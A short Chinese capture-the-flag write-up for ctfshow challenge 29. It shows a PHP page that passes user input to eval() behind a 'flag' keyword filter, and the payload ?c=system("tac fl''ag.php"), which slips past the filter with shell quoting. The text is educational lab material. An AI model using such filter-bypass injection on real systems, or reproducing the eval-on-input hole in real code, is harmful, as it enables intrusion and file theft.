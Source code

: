 ```yaml
---
id: ctfshow-重温命令执行
title: ctfshow-重温命令执行
---
```





## 29-正则绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:26:48
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

正则匹配flag，基于linux中的单引号、双引号和反引号的特性，可以用引号绕过~

> 单引号：会将其中内容都当做字符串，忽略所有命令和特殊字符
>
> 双引号：会解析其中的特殊字符和变量，如果要原样输出特殊字符需要用`\`转义
>
> 反引号：会将反引号中的字符串当作命令执行，反引号类似`$(command)`
>
> ![](https://i.loli.net/2021/11/01/S2nwGrNPY5JbOlB.png)

```
?c=system("tac fl''ag.php");
```



## 30-正则绕过

